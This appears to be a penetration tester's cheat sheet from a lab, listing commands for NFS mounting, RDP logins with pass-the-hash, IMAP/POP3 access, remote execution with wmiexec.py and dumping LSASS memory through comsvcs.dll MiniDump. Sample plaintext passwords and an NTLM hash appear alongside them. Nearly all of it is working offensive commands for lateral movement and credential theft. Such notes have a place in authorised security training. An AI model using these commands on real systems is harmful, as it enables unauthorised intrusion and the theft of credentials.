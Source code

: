 ```bash
sudo mount -t nfs 10.129.171.59:/ ~/Documents/target-NFS/ -o nolock
sudo umount ~/Documents/target-NFS/
```
## RDP pth
```bash
xfreerdp /v:172.16.5.35 /u:mlefay /p:'Plain Human work!' /drive:linux,/home/pl4int3xt /dynamic-resolution
xfreerdp /u:cry0l1t3 /p:"P455w0rd!" /v:10.129.201.248
rdesktop -u admin -p password123 192.168.2.143
HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa   DisableRestrictedAdmin
xfreerdp /v:192.168.220.152 /u:lewen /pth:300FF5E89EF33F83A8146C10F5AB9BB9
```
## IMAP/POP3
```bash
openssl s_client -connect 10.129.42.195:imaps
openssl s_client -connect 10.129.42.195:pop3s
```
```bash
A1 LOGIN username password
A1 LIST "" "*"
A1 SELECT "INBOX"
1 FETCH 1 all
1 FETCH 1 BODY[]
```
```bash
USER username
PASS password
LIST
RETR 1
QUIT
```
[Bluekeep CVE](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2019-0708)
## WMI
```bash
wmiexec.py Cry0l1t3:"P455w0rD!"@10.129.201.248 "hostname"
```
## LSASS
```
rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
```
## INFO GATHERING
[crt.sh](https://crt.sh)